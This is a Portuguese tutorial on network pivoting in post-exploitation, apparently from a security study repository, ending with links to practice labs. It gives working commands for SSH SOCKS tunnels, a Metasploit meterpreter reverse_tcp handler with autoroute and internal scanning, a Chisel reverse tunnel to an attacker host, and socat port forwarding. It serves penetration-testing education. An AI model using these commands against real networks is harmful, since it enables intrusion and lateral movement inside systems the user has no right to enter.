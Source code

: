 
### Pivoting

O Pivoting (também chamado de port forwarding ou tunneling) é uma técnica usada em pós-exploração para acessar redes internas protegidas. Essa estratégia permite que um atacante utilize uma máquina comprometida como ponto de salto (pivot) para alcançar sistemas que normalmente não estariam acessíveis externamente.

---

### Objetivo do Pivoting

- Acessar redes internas que não são diretamente expostas à internet.-

- Explorar sistemas dentro da rede interna sem necessidade de acesso físico.

- Criar túneis seguros para desviar o tráfego de rede.

---

### Tipos de Pivoting

### 1. Pivoting com SSH (Dynamic Port Forwarding)

O SSH Tunneling pode ser usado para redirecionar tráfego de uma máquina atacante para a rede interna via uma máquina comprometida.

- Criando um túnel SSH para redirecionar tráfego:

    ~~~bash
    ssh -D 9050 -N -f usuario@maquina_pivot
    ~~~

    - `-D 9050`: Cria um proxy SOCKS na porta 9050.
    
    - `-N`: Não abre um shell interativo.
    
    - `-f`: Envia o processo para o background.

- Usar o túnel como proxy SOCKS com proxychains:

    -  Configurar `/etc/proxychains.conf` para usar `socks5 127.0.0.1 9050`

    - Executar comandos via proxy:

        ~~~bach
        proxychains nmap -sT -Pn -p 22 192.168.1.100
        ~~~

### 2. Pivoting com Metasploit

O Metasploit permite fazer pivoting usando a funcionalidade de port forwarding.

- Criar uma sessão Meterpreter na máquina pivot:

~~~bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <IP-DO-ATACANTE>
set LPORT 4444
exploit
~~~

- Criar um túnel para acessar a rede interna:

~~~bash
meterpreter > run autoroute -s 192.168.1.0/24
~~~

- Executar um scan na rede interna usando Metasploit:

~~~bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 22,80,445
exploit
~~~

### 3. Pivoting com Chisel (Port Forwarding)

O Chisel é uma ferramenta leve para criação de túneis TCP/UDP via HTTP, útil quando o SSH ou Metasploit não podem ser usados.

- Baixar e executar Chisel na máquina atacante:

~~~bash
./chisel server --port 8000 --reverse
~~~

- Na máquina comprometida (cliente):

~~~bash
./chisel client <IP-DO-ATACANTE>:8000 R:1080:socks
~~~

- Usar o proxy SOCKS criado para acessar a rede interna:

~~~bash
proxychains nmap -sT -Pn -p 22 192.168.1.100
~~~

### 4. Pivoting com Socat

O Socat permite criar túneis TCP para acessar portas em redes internas.

- Criar um redirecionamento na máquina pivot:

~~~bash
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:22
~~~

*Isso faz um port forwarding da porta 22 da máquina-alvo para a porta 8080 do atacante.*

- Acessar o serviço via SSH:

~~~bash
ssh -p 8080 usuario@localhost
~~~

---

### Conclusão

O Pivoting é essencial para avançar em redes internas protegidas e explorar sistemas que não estão diretamente acessíveis. Com técnicas como SSH Tunneling, Metasploit, Chisel e Socat, é possível criar túneis e desviar tráfego de rede para ganhar controle total sobre um ambiente comprometido.

### Laboratórios Online

Se você quer praticar sem configurar um ambiente do zero, há plataformas que oferecem desafios realistas:

🔹 TryHackMe - [tryhackme.com](https://tryhackme.com/)

- Possui laboratórios específicos para pivoting, tunneling, e red teaming.
  - Algumas salas recomendadas:
    - "Pivoting" – Explica o conceito e ensina técnicas práticas.
    - "Offensive Security" – Cobre SSH Tunneling e pivoting com Metasploit.
    - "Red Teaming Fundamentals" – Ensina técnicas avançadas para acesso interno.


🔹 Hack The Box - [hackthebox.com](https://www.hackthebox.com/)

- Oferece máquinas virtuais para invadir e pivotar entre redes internas.
    - Algumas máquinas recomendadas:
      - "Jeeves" – Exemplo de pivoting via SOCKS5.
      - "Active" – Exploração de redes internas usando proxychains.
      - "Access" – Foca em port forwarding com SSH e Netcat.


🔹 Skill Dive - [INE - ine.com/dive](https://ine.com/dive)

- Laboratórios interativos que permitem testar pivoting sem necessidade de configurar um ambiente local. Antigo AttackDefense, agora integrado à plataforma INE.

---